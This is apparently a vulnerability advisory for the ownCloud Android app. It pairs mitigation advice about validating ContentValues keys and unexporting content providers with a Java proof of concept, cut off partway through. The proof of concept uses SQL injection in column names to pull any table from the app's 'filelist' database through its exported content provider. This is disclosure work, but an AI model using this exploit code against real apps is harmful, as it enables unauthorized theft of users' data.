 Consider these suggestions: https://developer.android.com/guide/topics/providers/content-provider-basics#Injection.

In general, any user input, including the parameters of the exposed methods of the `ContentProvider` interface, should be considered potentially malicious. As such, make sure that they are correctly validated and/or sanitized before using them in SQL statements or calls. This includes the keys in `ContentValues` objects, since those are used as column names in `insert` and `update` calls.

Also, if a content provider does not need to be exported, it is best to set its `exported` attribute to `false` so that other applications are not able to access it.

## Resources

### SQL injection in `filelist`

The following PoC demonstrates how a malicious application with no special permissions could extract information from any table in the `filelist` database exploiting the issues mentioned above:

```java
package com.example.test;

import android.content.ContentValues;
import android.content.Context;
import android.database.Cursor;
import android.net.Uri;
import android.util.Log;

public class OwncloudProviderExploit {

    public static String exploit(Context ctx, String columnName, String tableName) throws Exception {
        Uri result = ctx.getContentResolver().insert(Uri.parse("content://org.owncloud/file"), newOwncloudFile());
        ContentValues updateValues = new ContentValues();
        updateValues.put("etag=?,path=(SELECT GROUP_CONCAT(" + columnName + ",'\n') " +
                "FROM " + tableName + ") " +
                "WHERE _id=" + result.getLastPathSegment() + "-- -", "a");
        Log.e("test", "" + ctx.getContentResolver().update(
                result, updateValues, null, null));
        String query = query(ctx, new String[]{"path"},
                "_id=?", new String[]{result.getLastPathSegment()});
        deleteFile(ctx, result.getLastPathSegment());
        return query;
    }

    public static String query(Context ctx, String[] projection, String selection, String[] selectionArgs) throws Exception {
        try (Cursor mCursor = ctx.getContentResolver().query(Uri.parse("content://org.owncloud/file"),
                projection,
                selection,
                selectionArgs,
                null)) {
            if (mCursor == null) {
                Log.e("evil", "mCursor is null");
                return "0";
            }
            StringBuilder output = new StringBuilder();
            while (mCursor.moveToNext()) {
                for (int i = 0; i < mCursor.getColumnCount(); i++) {
                    String column = mCursor.getColumnName(i);
                    String value = mCursor.getString(i);
                    output.append("|").append(column).append(":").append(value);
                }
                output.append("\n");
```